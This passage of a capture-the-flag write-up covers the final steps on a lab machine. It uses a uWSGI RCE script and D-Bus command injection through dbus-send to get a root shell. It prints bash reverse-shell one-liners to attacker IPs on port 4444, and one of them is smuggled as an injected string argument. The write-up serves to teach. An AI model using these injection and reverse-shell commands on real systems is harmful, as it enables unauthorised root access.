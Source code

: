 ```
qtc@de8d92c274d6:~$ python3 rce.py -m unix -u /tmp/uwsgi.socket -c 'bash -c "bash -i >& /detcp/172.18.0.1/4444 0>&1"'
[*]Sending payload.
```

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

### DBus RCE

As `www-data`, we have some permissions over `dbus`. Well, Hacktricks kinda spoiled the exploit for me because it revealed the exact command to use to get RCE as root using `dbus-send`.

How this exploit works is that the main machine is running `iptables` to block the IP addresses (remember the cronjob?). As such, we can try to test whether the input being sent there is sanitised. If it is not, we have a chance to inject code. To do this, we would need a method to send `dbus` messages, and this can be done with `dbus-send`.&#x20;

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation#exploit-it" %}

We can append the RCE exploit at the back. Since the `iptables` portion is being handled by the `root` user on the main machine, the command is run as `root`, giving us a root shell!

```
www-data@de8d92c274d6:/tmp$ dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block htb.oouch.Block.Block string:';bash -c "bash -i >& /dev/tcp/10.10.14.39/4444 0>&1" #'
<h -c "bash -i >& /dev/tcp/10.10.14.39/4444 0>&1" #'                                         
method return time=1678608399.001859 sender=:1.3 -> destination=:1.436 serial=4 reply_serial=2                                                                                            
   string "Carried out :D"
```

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

I wonder why this machine isn't in Insane level...
